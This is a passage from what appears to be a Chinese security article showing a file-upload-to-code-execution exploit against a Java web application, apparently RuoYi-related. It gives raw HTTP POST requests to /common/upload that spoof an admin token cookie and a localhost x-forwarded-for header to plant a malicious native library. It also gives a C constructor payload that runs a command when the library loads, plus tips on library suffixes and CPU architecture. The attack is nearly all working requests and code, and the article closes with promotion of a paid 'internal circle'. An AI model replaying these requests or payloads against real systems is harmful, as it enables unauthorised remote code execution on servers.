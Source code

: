 POST /common/upload HTTP/1.1Host: 10.40.107.67Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9,en;q=0.8Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=b414f17a-7363-47d9-b164-3d0532a09b1cx-forwarded-for: 127.0.0.1Connection: closeContent-Type: multipart/form-data; boundary=00content0boundary00Content-Length: 167--00content0boundary00Content-Disposition: form-data; name="file"; filename="com.ruoyi.quartz.task.txt"Content-Type: image/jpgsuccess--00content0boundary00--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN1mxRV0pclCzVc9Gs74nV2RIX1V3dftT16CAPkqRkMjg1X2FHuibD8uw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNV8fheDH0decXiaeWr1KgmowSnoulial3xpB4J39iaaFFytoF6UTqTBiaBQ/640?wx_fmt=png&from=appmsg "")  
```
cat calc.c #include <stdlib.h>__attribute__((constructor))static void run() {system("open -a Calculator");}
```  
```
POST /common/upload HTTP/1.1Host: 10.40.107.67Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9,en;q=0.8Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=b414f17a-7363-47d9-b164-3d0532a09b1cx-forwarded-for: 127.0.0.1Connection: closeContent-Type: multipart/form-data; boundary=00content0boundary00Content-Length: 167--00content0boundary00Content-Disposition: form-data; name="file"; filename="com.ruoyi.quartz.task.txt"Content-Type: image/jpg二进制恶意代码--00content0boundary00--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN4Tic45Cxck2hibzUIyKYoleYC7sGibtmV3ibBF3VibpXvMRz9xWaOe71tibA/640?wx_fmt=png&from=appmsg "")  
  
  
注意他会自动在后面添加dylib等后缀，在不同的系统中可能有不同的后缀，并且要注意架构问题  
#   
#   
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
**内部圈子详情介绍**  
  
我们是  
神农安全  
，点赞 + 在看  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap086iau0Y0jfCXicYKq3CCX9qSib3Xlb2CWzYLOn4icaWruKmYMvqSgk1I0Aw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**内部圈子介绍**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap08Z60FsVfKEBeQVmcSg1YS1uop1o9V1uibicy1tXCD6tMvzTjeGt34qr3g/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
```